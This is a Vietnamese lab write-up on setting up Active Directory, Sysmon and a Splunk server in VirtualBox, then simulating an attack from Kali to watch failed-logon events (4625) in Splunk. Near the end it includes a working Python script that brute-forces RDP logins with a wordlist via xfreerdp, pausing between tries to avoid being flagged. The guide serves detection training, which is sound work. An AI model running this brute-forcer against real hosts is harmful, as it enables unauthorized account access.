




<h1 style="text-align:center;">TRIỂN KHAI ACTIVE DIRECTORY VÀ SPLUNK SERVER THU THẬP CÁC SỰ KIỆN NHẰM PHÁT HIỆN CÁC CUỘC TẤN CÔNG.</h1>

> **Tác giả:** Bùi Thanh Lực  
---

## 1. 🧭 Giới thiệu
- Phần lớn các tổ chức hiện nay đều sử dụng Active Directory để quản lý người dùng, máy tính, nhóm, chính sách bảo mật, và nhiều tài nguyên khác trong mạng doanh nghiệp chạy hệ điều hành Windows Server. Các tính năng chính của Active Directory (AD) như: Centralized Data Store - Lưu trữ dữ liệu tập trung, Scalability - Khả năng linh hoạt với nhu cầu, Extensibility - Cơ sở dữ liệu của Active Directory cho phép nhà quản trị có thể customize và phát triển, Manageability - Khả năng quản trị linh hoạt dễ dàng, Integration with Domain Name System (DNS) - Tích hợp với DNS, Client Configuration Management - Quản trị cấu hình client, Policy, ...
- Mô hình của bài tập này được thể hiển ở hình 1.1
###

###
<p style="text-align:center;"><i>Hình 1.1: Sơ đồ hệ thống</i></p>

---

## 2. 🎯 Mục tiêu

- Hiểu về cách hoạt động của Domain.
- Thu thập sự kiện vào SIEM và tạo dữ liệu giám sát liên quan đến các cuộc tấn công.

---

## 3. 📚 Chi tiết nội dung

### 📦 Phần 1: Cấu hình card mạng các máy trên Vitual Box

Đầu tiên ta cần đảm bảo các máy nằm trên cùng một mạng như vẫn có thể truy cập được vào Internet. Để thực hiện việc này ta có thể thực hiện trong `Tools` chọn `Network` chọn `NAT Networks` sau đó ta cấu hình các thông số Name và IP và `Apply` để tạo card mới.
###

###
<p style="text-align:center;"><i>Hình 3.1.1: Cấu hình card NAT network trong Vitualbox</i></p>
Sau đó ta chỉnh phần card mạng của từng máy thành cart NAT network mà ta vừa tạo ở trên.


###
<p style="text-align:center"><i>Hình 3.1.2: Chọn card mạng cho các máy ảo.</i></p>

### 📦 Phần 2: Cấu hình và cài đặt Splunk Server
Ban đầu máy Ubuntu dùng làm Splunk Server sẽ được cấp một IP động do sử dụng DHCP điều đó dẫn dến khi ta thực hiện ping google để kiểm tra sẽ không ping được. Dùng lệnh `sudo vi /etc/netplan/50-cloud-init.yaml` để cấu hình lại như hình 3.1.3.
###

<p style="text-align:center;"><i>Hình 3.1.3: Cấu hình IP tĩnh cho Ubuntu Splunk Server</i></p>
Cấu hình trên với mục đích tắt DHCP và đạt IP tĩnh cho máy là 192.168.10.10 với subnet mask là 255.255.255.0 (tức /24), default gateway là 192.168.10.1, DNS server là 8.8.8.8

###
Lưu file cấu hình và chạy lệnh `sudo netplan apply` và ta kiểm tra lại bằng lệnh `ip a`


<p style="text-align:center;"><i>Hình 3.1.4: Kiểm tra ip và ping ra internet thành công</i></p>

Sau khi cấu hình IP hoàn tất ta tiến hành truy cập `splunk.com`, nếu chưa có tài khoản thì đăng kí và download Splunk Enterprise về, lưu ý ở đây ta triển khai trên hệ điều hành Ubuntu nên chú ý chọn package là linux (file có định dạng là .deb). 
###
Khi quá trình tải hoàn tất, việc tiếp theo ta cần đưa file này vào máy ảo Ubuntu (Splunk Server). Đầu tiên ta cài tiện ích bổ sung Guest cho VirtualBox bằng câu lệnh `sudo apt-get install virtualbox-guest-additions-iso` trong quá trình cài chọn options `y` để tiếp tục cho đến khi xuất hiện màn hình như hình 3.1.5 nhấn `enter` để hoàn tất.

<p style="text-align:center;"><i>Hình 3.1.5</i></p>

###
Tiếp theo ta add share folder để lấy file cài đặt splunk vừa nãy vừa tải về, `Device` -> `Share Folder` -> `Share Folder Setting..` tại Share Folder Setting ta chọn đường dẫn chứa file cài đặt splunk và cấp quyền cho folder như hình 3.1.6.


<p style="text-align:center;"><i>Hình 3.1.6: Add Share Folder</i></p>

### 
Tiếp theo là cài đặt các tiện ích của Guest Additions trong hệ điều hành Linux đang chạy máy ảo virtualbox bằng lệnh `sudo apt-get install virtualbox-guest-utils` nhằm chia sẻ file, thư mục, bàn phím giữa máy ảo và máy thật. Tiến hành reboot lại máy Splunk để nhận cấu hình bằng `sudo reboot`.

###
Sau khi quá trình reboot hoàn tất ta thêm username (hiện tại là spladmin) vào group vboxsf nhằm mục đích cho phép user spladmin truy cập vào các share folder được chia sẻ từ máy thật (host) trong virtualbox bằng câu lệnh `sudo adduser spladmin vboxsf`. 
###
Tạo thư mục Share bằng lệnh `mkdir share`. Sau đó ta sẽ gắn thư mục mà ta muốn share cho máy ảo trên host vào thư mục Share trên máy ảo bằng lệnh `sudo mount -t vboxsf -o uid=1000,gid=1000 Active-Directory share/`. Sau khi mount xong ta có thể change directory vào thư mục Share sẽ thấy các file trong thư mục Active-Directory bao gồm cả file setup splunk mà ta đã thêm (Hình 3.1.7).


<p style="text-align:center;"><i>Hình 3.1.7: Các file trong thư mục Share</i></p>

###
Tiến hành cài đặt splunk từ file .deb bằng lệnh `sudo dpkg -i <tên file cài splunk>` để cài đặt và kiểm tra bằng lệnh `ls -la /opt/splunk` 


<p style="text-align:center;"><i>Hình 3.1.8: Thư mục của Splunk</i></p>

Tiếp theo ta chạy một phiên terminal bash dưới quyền user splunk bằng lệnh `sudo -u splunk bash`. Sau đó `cd bin` để chạy splunk bằng lệnh `./splunk start` (Có thể sẽ xuất hiện lỗi không tìm thấy thư mục mặc dù thư mục tồn tại là do server còn thiếu một số gói cơ bản có thể chạy update và cài các gói cần thiết), và nhớ đặt username và password cho administrator. Khi hoàn tất ta sẽ có splunk web interface như hình 3.1.9


<p style="text-align:center;"><i>Hình 3.1.9: Splunk web interface</i></p>

### 
Để đảm bảo rằng splunk khởi động mỗi khi máy ảo khởi dộng lại ta sẽ dùng lệnh `exit` để thoát khởi username Splunk sau đó `cd /opt/splunk/bin` và chạy lệnh `sudo ./splunk enable boot-start -user splunk`.


<p style="text-align:center;"><i>Hình 3.1.10:Khởi động Splunk cùng hệ thống </i></p>

###
Vậy là ta đã cài đặt hoàn tất splunk có thể kiểm tra trạng thái của splunk bằng câu lệnh `sudo systemctl status splunkd`

<p style="text-align:center;"><i>Hình 3.1.11: Splunk status </i></p>


### 📦 Phần 3: Cấu hình và triển khai "target" trên windows 10
Trước tiên ta tiến hành đặt ip tĩnh cho máy windows 10 (192.168.10.100/24). Sau khi đặt ip cho máy windows 10 ta cũng có thể truy cập vaò Splunk Server của chúng ta bằng http://192.168.10.10:8000 

<p style="text-align:center;"><i>Hình 3.3.1: Truy cập vào splunk server </i></p>
Tiếp theo ta sẽ cài đặt splunk universal forwarder bằng cách truy cập vào splunk.com sau đó login.


<p style="text-align:center;"><i>Hình 3.3.2: Login vào splunk </i></p>

###
Sau đó tải Universal Forwarder bản windows 64 bit về máy (Hình 3.3.3)

<p style="text-align:center;"><i>Hình 3.3.3: Download Universal Forwarder</i></p>

###
Sau khi tải về hoàn tất ta tiến hành mở lên và cài đặt


<p style="text-align:center;"><i>Hình 3.3.4</i></p>


<p style="text-align:center;"><i>Hình 3.3.5: Username là admin và random password</i></p>

Cứ chọn `Next` cho đến phần Receiving Indexer 


<p style="text-align:center;"><i>Hình 3.3.6: Điền IP của Splunk Server và port mặc định là 9997</i></p>


<p style="text-align:center;"><i>Hình 3.3.7: Install để cài đặt</i></p>

###
Khi cài đặt xong splunk universal forwarder tiếp theo ta sẽ cài sysmon. Thì nhiệm vụ của Sysmon ở đây dùng để giám sát và ghi lại các sự kiện của các điểm cuối ( endpoint ) của Microsoft nó sẽ kha khá giống với Windows Logs Event. Truy cập vào browser search keyword `sysmon` và chọn trang chính do Microsoft cung cấp sau đó ta download về máy (https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon). 
 

<p style="text-align:center;"><i>Hình 3.3.8: Download Sysmon</i></p>

###
Tiếp theo ta sẽ tải cấu hình sysmon, search keyword `sysmon olaf config` (https://github.com/olafhartong/sysmon-modular) và save file sysmonconfig.xml về máy.


<p style="text-align:center;"><i>Hình 3.3.9: Sysmon.zip và sysmonconfig.xml</i></p>

Khi đã có 2 file cần thiết ta tiến hành giải nén file Sysmon.zip. Mở Power Shell dưới quyền Administrator sau đó change directory đến thư mục giải nén sysmon. Và sau đó ta chạy file cài đặt bằng lệnh như hình 3.3.10


<p style="text-align:center;"><i>Hình 3.3.10: Cài đặt sysmon 64</i></p>

###
Và bây giờ là phần quan trọng nhất, chúng ta cần hướng dẫn Splunk Forwarder của mình về những gì chúng ta muốn gửi đến Splunk server. Để thực hiện việc này, chúng ta phải định cấu hình một tệp có tên là `inputs.conf`. Ta có thể xem tệp mặc định này nằm trong `C:\ProgramFile\SplunkUniversalForwarder\etc\system\default`. Ở đây ta sẽ tạo một file mới để phòng khi có thao tác gì sau ta còn có file mặc định ban đầu để thay thế với nội dung như hình 3.3.11


<p style="text-align:center;"><i>Hình 3.3.11: Nội dung config file inputs.conf. Tệp này chỉ định Splunk Forwarder của chúng ta đẩy các sự kiện liên quan đến application, security, system và sysmon sang splunk server </i></p>

###
Sau đó ta lưu file inputs.conf này tại `C:\ProgramFile\SplunkUniversalForwarder\etc\system\local`. Lưu ý rằng bất cứ khi nào cập nhật lại file inputs.conf thì phải restart lại service splunk forwarder. Ta có thể vào `services` tìm đến `SplunkForwarder`, tuy nhiên ở đây ta sẽ thấy service này đang sử dụng account NT SERVICE\SplunkForwarder nó có thể sẽ không thu thập được nhật ký do một số quyền vì vậy ta sẽ đổi qua Log on as: Local System account (Hình 3.3.12) sau đó nhớ restart lại service.


<p style="text-align:center;"><i>Hình 3.3.12</i></p>

###
Đến đây ta đã cài đặt sysmon và splunk forwarder cũng như cấu hình file inputs hoàn tất. Bây giờ ta có thể truy cập vào web interface của splunk bằng tài khoản đã tạo trong quá trình cài đặt splunk server 


<p style="text-align:center;"><i>Hình 3.3.13: Đăng nhập thành công vào splunk</i></p>

Ta chọn `Setting` - `Indexes` - `New Index` - nhập `Index Name` với giá trị là `endpoint` - `Save` 


<p style="text-align:center;"><i>Hình 3.3.14: Tạo index endpoint do file inputs.conf ta cấu hình tất cả các event gửi về index là endpoint</i></p>

Tiếp theo ta cần đảm bảo rằng chúng ta bật splunk server để nhận dữ liệu, để thực hiện việc đó ta vào `Setting` - `Forwarding and receiving` - tại Receive data chọn `Configure receiving` - `New Receiving Port` (9997) - `Save` 


<p style="text-align:center;"><i>Hình 3.3.15</i></p>

Để xem kết quả, trên web interface của splunk ta vào mục `App` - `Search and Reporting` - Trong search bar nhập cú pháp `index=endpoint` (Hình 3.3.16)


<p style="text-align:center;"><i>Hình 3.3.16</i></p>

### 📦 Phần 4: Cấu hình và triển khai Active Directory trên Windows Server 2022
Như chúng ta đã trình bày sơ bộ ở phần Giới thiệu về Active Directory. Nó được Microsoft phát triển dành cho hệ điều hành Windows Server và được sử dụng để quản lý và xác thực người dùng, máy tính và các tài nguyên mạng trong môi trường mạng doanh nghiệp. Chức năng chính là xác thực người dùng khi đăng nhập bằng username/password (thường sử dụng kerberos), ủy quyền cho user truy cập tài nguyên, quản lý tập trung, triển khai chính sách nhóm (GPO) và tự động đồng bộ hóa dữ liệu AD giữa các DC.
###
Một Active Directory Server thường được gọi là Domain Controller (DC) là máy chủ dịch vụ Active Directory Domain Services (AD DS) có nhiệm vụ quản lý danh tính và quyền truy cập cho người dùng và tài nguyên trong mạng.

#### Sau đây ta sẽ đi vào phần triển khai chi tiết từng bước để phục vụ cho bài LAB này 
Ta tiến hành đặt ip tĩnh cho windows server 2022 như mô hình 


<p style="text-align:center;"><i>Hình 3.4.1: Cấu hình Ip tĩnh và Ping ra ngoài Internet</i></p>

### 
Sau khi đặt ip tĩnh và đã ping internet thành công ta tiến hành cài đặt splunk universal forwarder và sysmon cho windows server (Các bước cài đặt như ở trên). Khi hoàn thành ta có thế truy cấp vaò web interface trong tab `host` sẽ thấy 2 máy là targer PC và ADDC01 (Hình 3.4.2)

 
<p style="text-align:center;"><i>Hình 3.4.2: 2 host đã cài thành công</i></p>

###
Tiếp theo ta sẽ cài đặt Active Directory Domain Services bằng cách vào Server Manager chọn `Manager` - `Add Roles and Features` và thực hiện lần lượt theo các bước: 

 
<p style="text-align:center;"><i>Hình 3.4.3</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.4</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.5</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.6</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.7</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.8</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.9: Cài đặt thành công</i></p>

###
Sau khi đã thêm ADDS ta tiến hành triển khai Domain Services. Các bước lần lượt như sau:

 
<p style="text-align:center;"><i>Hình 3.4.10</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.11: Chọn option Add a new forest vì ta đang tạo một domain hoàn toàn mới</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.12: Đặt password: P@ssWord123 (Các bạn đặt pass theo các bạn nhé!)</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.13</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.14</i></p>

 
<p style="text-align:center;"><i>Hình 3.4.15: Đường dẫn được sử dụng để lưu trữ file CSDL. Tệp này chứa mọi thứ liên quan đến active directory bao gồm cả password hashing. Nếu nhận thấy bất kỳ hoạt động trái phép nào đối với file này nghĩa là có thể toàn bộ active directory bị tấn công </i></p>


<p style="text-align:center;"><i>Hình 3.4.14</i></p>


<p style="text-align:center;"><i>Hình 3.4.14: Sau khi hoàn thành máy sẽ restart. Quá trình cài đặt Active Directory Domain Services hoàn tất</i></p>

###
Trong thực tế một công ty sẽ có nhiều phòng ban trong phòng ban sẽ có nhiều nhân viên, để thể hiện cho điều này ta sẽ phải tổ chức OU (Organizational Unit). Ta thực hiện chon `Tools` - `Active Directory Users and Computers` Hộp thoại Active Directory Users and Computers xuất hiện, tại domain right click chọn `New` - `Organizational Unit` sau đó đặt tên cho OU chẳng hạn ở đây mình sẽ đặt là `IT` để đại diện cho phòng CNTT.


<p style="text-align:center;"><i>Hình 3.4.18</i></p>

###
Tiếp theo ta tạo user `IT` - `New` - `User` và điền các thông tin như hình 3.4.19 và 3.4.20


<p style="text-align:center;"><i>Hình 3.4.19</i></p>


<p style="text-align:center;"><i>Hình 3.4.20</i></p>

###
Kết quả như hình 3.4.21. Và ta thực hiện tương tự để tạo thêm một OU cho phòng HR và thêm user tương tự như đã thêm ở phòng IT.


<p style="text-align:center;"><i>Hình 3.4.21</i></p>

#### Thực hiện join domain cho máy target PC 
Sau khi ta tạo OU và User xong trên máy server, ta quay lại target PC để thực hiện join domain và đăng nhập bằng user `lucbt@mysos.local` đã tạo. 


<p style="text-align:center;"><i>Hình 3.4.22</i></p>


<p style="text-align:center;"><i>Hình 3.4.23</i></p>

### 📦 Phần 5: Cài đặt và cấu hình Kali Linux - Khởi tạo tấn công.
Trước hết ta cần cấu hình địa chỉ ip như mô hình ở trên và tiến hành ping internet để kiểm tra kết nối.


<p style="text-align:center;"><i>Hình 3.5.1: Kiểm tra IP và Ping ra Internet</i></p>

Sau đó dùng lệnh `sudo apt-get update && sudo apt-get upgrade -y`  để cập nhật repo máy kali. Sau khi quá trình update hoàn tất chúng ta có thể bắt đầu thiết lập cuộc tấn công của mình.
###
Để bắt đầu trước tiên tạọ một thư mục mới bằng lệnh `mkdir` chẳng hạn ở đây tôi tạo thư mục tên là ad-project bằng lệnh `mkdir ad-project` để lưu trữ các file được sử dụng phục vụ cho project này. 
###
Giả sử ở đây mình khởi tạo tấn công brute force vào máy WIN10-TARGET với username là lucbt với file từ điển wordlist có sẵn (File này chúng ta sẽ thu thập từ nhiều nguồn và trong bài lab này ta thêm vào wordlist mật khẩu đúng coi như mật khẩu của admin có trong wordlist). 
###
Sau đó chúng ta sẽ sử dụng tool brute-force để thực hiện tấn công. Tôi sẽ thực hiện viết một đoạn script python để brute-force với ip mục tiêu là 192.168.10.100 trên giao thức remote desktop bằng `vi brute_rdp.py`
###
```python
import subprocess
import time

# Cấu hình
target_ip = "192.168.10.100" #IP mục tiêu
username = "lucbt" #Username cần brute-force
password_file = "/home/kali/Desktop/ad-project/password.txt" #Đường dẫn file từ điển

# Tuỳ chọn xfreerdp
xfreerdp_base_cmd = [
    "xfreerdp",
    "/cert:ignore",         # Bỏ qua lỗi SSL certificate
    "+auth-only",           # Chỉ xác thực, không mở GUI 
    "/log-level:ERROR"      # Hiện lỗi đơn giản
]

# Đọc danh sách mật khẩu
with open(password_file, "r") as f:
    passwords = [line.strip() for line in f if line.strip()]

print(f"[+] Bắt đầu brute force {username}@{target_ip} với {len(passwords)} mật khẩu...\n")

# Thử từng mật khẩu
for idx, password in enumerate(passwords, 1):
    print(f"[{idx}/{len(passwords)}] Thử mật khẩu: {password}")

    # Ghép lệnh xfreerdp
    cmd = xfreerdp_base_cmd + [f"/v:{target_ip}", f"/u:{username}", f"/p:{password}"]

    # Thực thi và lấy mã thoát
    result = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    return_code = result.returncode

    if return_code == 0:
        print(f"\nThành công! Mật khẩu đúng: {password}")
        break
    else:
        print("Sai mật khẩu\n")
        time.sleep(1)  # nghỉ 1 giây giữa các lần thử tránh để bị đánh dấu spam

else:
    print("\nKhông tìm được mật khẩu đúng trong danh sách.")

```
###
Sau đó thực hiện change directory tới thư mục chứa script python dùng `python3 brute_rdp.py` để thực hiện chạy script.


<p style="text-align:center;"><i>Hình 3.5.2: Run Script để Brute-force </i></p>

###
Ta sẽ quay lại web inteface để xem envet log, ta có thể sử dụng truy vấn `index=endpoint host="WIN10-TARGET"` để xem các events liên quan đến máy WIN10-TARGET. 


<p style="text-align:center;"><i>Hình 3.5.3</i></p>

###
Trên hình 3.5.3 ta thấy trong `EventCode` có giá trị là `4625` (Giá trị này có ý nghĩa là đăng nhập thất bại) với số  `Count = 21` (Đúng với số lượng password có trong file wordlist) điều đó có nghĩa là máy mục tiêu đang ghi nhận quá trình cố gắng login và splunk đã ghi nhận được sự kiện này. 


<p style="text-align:center;"><i>Hình 3.5.4</i></p>


<p style="text-align:center;"><i>Hình 3.5.5: Log cho thấy thông điệp login không thành công và được tấn công từ máy có tên là kali có IP là 192.168.10.250</i></p>

